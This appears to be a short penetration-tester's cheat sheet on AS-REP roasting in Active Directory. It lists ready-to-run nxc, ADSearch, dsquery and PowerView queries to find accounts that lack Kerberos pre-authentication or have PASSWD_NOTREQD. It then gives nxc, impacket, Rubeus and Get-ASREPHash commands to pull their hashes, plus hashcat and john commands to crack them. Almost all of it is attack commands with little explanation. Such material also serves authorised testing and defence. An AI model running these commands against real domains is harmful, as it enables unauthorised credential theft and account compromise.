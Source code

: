 ```yaml
---
tags:
  - Initial-Access
  - Kerberos
  - Unauthenticated
  - AD
---
```

## **Identify**
---
**NXC** (remotely)
```C
nxc ldap <IP> -u '' -p '' --query '(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))' ""
```
**Locally**: [ADSearch Github](https://github.com/tomcarver16/ADSearch)
```C
ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
```
Locally: lolbin
```PowerShell
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl
```
Locally: [powerview](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
```Bash
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontro
```

## Exploit
---
**Ask for TGS** 
remotely:
```C
nxc ldap <IP> -u '<USER>' -p '' --asreproast output.txt
```
```C
impacket-GetNPUsers domain.local/svc-test -no-pass
```
locally:
```C
Rubeus.exe asreproast /format:hashcat /outfile:hashes.txt /user:svc-test /nowrap
```
```C
Get-ASREPHash -Username svc-test -verbose
```

**Crack ticket**
```C
hashcat -m 18200 --force -a 0 hashes.txt <wordlist>
```
```C
john --wordlist=<wordlist> hashes.txt
```